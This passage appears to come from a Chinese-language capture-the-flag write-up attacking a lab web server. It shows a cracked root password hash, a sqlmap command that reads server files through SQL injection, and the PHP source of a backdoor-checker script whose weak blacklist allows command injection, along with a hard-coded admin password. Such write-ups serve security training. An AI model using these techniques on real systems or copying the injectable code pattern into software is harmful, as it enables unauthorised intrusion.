 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功获取 root 用户哈希值：F435725A173757E57BD36B09048B8B610FF4D0C4，通过网站破解md5值 **破解网站：https://crackstation.net/**![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功破解密码为`Welkom1!`

### PHP代码审计

访问地址`http://10.10.10.154/notes.txt`发现这是 xampp，默认绝对路径为`C:/xampp/htdocs`![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)有了绝对路径后我们可直接读取后门识别脚本 backdoorchecker.php

```
sqlmap -r search_sqli.txt --file-read '/xampp/htdocs/admin/backdoorchecker.php'  

```

源码如下所示：

```
<?php  
include('../link.php');  
include('auth.php');  
  
$username = base64_decode(urldecode($_COOKIE['username']));  
$password = base64_decode(urldecode($_COOKIE['password']));  
$bad      = array('$(','&');  
$good     = "ls";  
  
if(strtolower(substr(PHP_OS,0,3)) == "win"){  
        $good = "dir";  
}  
  
if($username == "admin" && $password == "Hopelessromantic"){  
        if(isset($_POST['cmd'])){  
                        // FILTER ESCAPE CHARS  
                        foreach($bad as $char){  
                                if(strpos($_POST['cmd'],$char) !== false){  
                                        die("You're not allowed to do that.");  
                                }  
                        }  
                        // CHECK IF THE FIRST 2 CHARS ARE LS  
                        if(substr($_POST['cmd'], 0,strlen($good)) != $good){  
                                die("It's only allowed to use the $good command");  
                        }  
  
                        if($_SERVER['REMOTE_ADDR'] == "::1"){  
                                system($_POST['cmd']);  
                        } else{  
                                echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";  
                        }  
        }  
} else{  
        echo "You are not allowed to use this function!";  
}  
?> 
```
